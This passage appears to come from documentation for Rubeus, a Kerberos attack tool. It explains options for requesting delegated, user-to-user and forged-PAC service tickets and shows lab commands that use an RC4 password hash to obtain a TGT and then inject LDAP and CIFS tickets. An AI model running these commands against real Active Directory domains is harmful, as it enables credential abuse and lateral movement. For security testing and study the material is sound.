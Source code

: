 To play with other scenarios manually, `/tgs:X` can be used to supply an additional ticket which is appended to the request body. This also adds the constrained delegation KDC option as well as avoids dynamically determining the domain from the given SPN `/service:X`, for this reason the `/targetdomain:X` argument has been implemented to force the request to use the supplied domain which is useful for requesting delegated service tickets from a foreign domain or tickets with usual SPNs.

The `/u2u` flag was implemented to request User-to-User tickets. Together with the `/tgs:X` argument (used to supply the target accounts TGT), the `/service:X` argument can be the username of the account the supplied TGT is for (with the `/tgs:X` argument). The `/targetuser:X` argument will request a PAC of any other account by inserting a PA-FOR-USER PA data section with the `target user's` username.

The `/printargs` flag will print the arguments required to forge a ticket with the same PAC values if the PAC is readable. This could be done by supplying the `/servicekey:X` argument or performing a `/u2u` request with a known session key.


Requesting a TGT for dfm.a and then using that ticket to request a service ticket for the "LDAP/primary.testlab.local" and "cifs/primary.testlab.local" SPNs:

    C:\Rubeus>Rubeus.exe asktgt /user:dfm.a /rc4:2b576acbe6bcfda7294d6bd18041b8fe

     ______        _
    (_____ \      | |
     _____) )_   _| |__  _____ _   _  ___
    |  __  /| | | |  _ \| ___ | | | |/___)
    | |  \ \| |_| | |_) ) ____| |_| |___ |
    |_|   |_|____/|____/|_____)____/(___/

    v1.3.3

    [*] Action: Ask TGT

    [*] Using rc4_hmac hash: 2b576acbe6bcfda7294d6bd18041b8fe
    [*] Using domain controller: PRIMARY.testlab.local (192.168.52.100)
    [*] Building AS-REQ (w/ preauth) for: 'testlab.local\dfm.a'
    [*] Connecting to 192.168.52.100:88
    [*] Sent 230 bytes
    [*] Received 1537 bytes
    [+] TGT request successful!
    [*] base64(ticket.kirbi):

        doIFmjCCBZagAwIBBaEDAgEWoo...(snip)...

    C:\Rubeus>Rubeus.exe asktgs /ticket:doIFmjCCBZagAwIBBaEDAgEWoo...(snip)... /service:LDAP/primary.testlab.local,cifs/primary.testlab.local /ptt

     ______        _
    (_____ \      | |
     _____) )_   _| |__  _____ _   _  ___
    |  __  /| | | |  _ \| ___ | | | |/___)
    | |  \ \| |_| | |_) ) ____| |_| |___ |
    |_|   |_|____/|____/|_____)____/(___/
